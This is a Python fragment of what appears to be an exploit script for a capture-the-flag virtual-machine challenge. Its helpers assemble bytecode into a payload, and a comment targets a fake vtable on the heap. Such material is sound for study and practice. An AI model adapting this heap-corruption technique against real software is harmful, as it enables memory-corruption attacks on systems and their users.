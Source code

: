 ```python
def shl_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0x37) + p8((src<<4))
  pos += 4

def or_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0xb) + p8((src<<4)|0x0f)
  pos += 4

def or_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0xb) + p8((src<<4))
  pos += 4

def push_imm(val):
  global pos
  global payload
  payload += p8(0x0f) + p8(0x65) + p16(val) + p8(0)*4
  pos += 8

# push multiple regs, num, and list
def push_regs(num, v1=0,v2=0,v3=0,v4=0,v5=0,v6=0):
  global pos
  global payload
  payload += p8(num<<4) + p8(0x65) + p8(v1) + p8(v2) + p8(v3) + p8(v4) + p8(v5) + p8(v6) 
  pos += 8

def pop_reg(r):
  global pos
  global payload
  payload += p8(0x10) + p8(0x56) + p8(r)  + p8(0)*5
  pos += 8

# pop multiple regs, num, and list
def pop_regs(num, v1=0,v2=0,v3=0,v4=0,v5=0,v6=0):
  global pos
  global payload
  payload += p8(num<<4) + p8(0x56) + p8(v1) + p8(v2) + p8(v3) + p8(v4) + p8(v5) + p8(v6) 
  pos += 8

def int_r7():
  global pos
  global payload
  payload += p8(0x00) + p8(0x90)  + p8(0)*6
  pos += 8

def mov_reg_reg(dst,src):
  global pos
  global payload
  payload += p8(0x10) + p8(0x17) + p8(0)*6
  pos += 8

# distance on heap where we will create our fake vtable
offset = 180

mode()
push_imm(0xfb1a)
pop_reg(6)
switchl()
```